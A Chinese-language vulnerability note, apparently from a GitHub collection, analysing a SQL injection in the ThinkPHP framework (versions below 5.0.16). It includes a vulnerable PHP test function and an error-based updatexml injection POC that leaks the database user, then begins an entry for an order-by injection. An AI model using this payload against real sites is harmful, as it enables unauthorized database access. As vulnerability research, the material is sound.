 | 标题     | ThinkPHP框架 5.0.x sql注入漏洞分析 |
| -------- | --------------------------------------------------- |
| 时间     | 2018-04-09                                          |
| 版本     | < 5.0.16                                            |
| 文章链接 | <https://xz.aliyun.com/t/2257>                        |

>测试方法
>
>```bash
>git checkout 7c13757
>```
>
>测试代码
>
>```php
>public  function testsql()
>    {
>        $username = input('get.username/a');
>        db('user')->where(['id'=> 1])->insert(['username'=>$username]);
>    }
>```
>
>POC
>
>```php
>testsql?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
>```
>
>结果
>
>![img](image/ThinkPHP/2018-04-09.png)

#### ThinkPHP5.X_order_by注入漏洞

| 标题     | ThinkPHP 3.X/5.X order by注入漏洞                   |
| -------- | --------------------------------------------------- |
| 时间     | 2018-08-23                                          |
| 版本     | <= 5.1.22                                           |
| 文章链接 | <https://mp.weixin.qq.com/s/jDvOif0OByWkUNLv0CAs7w> |
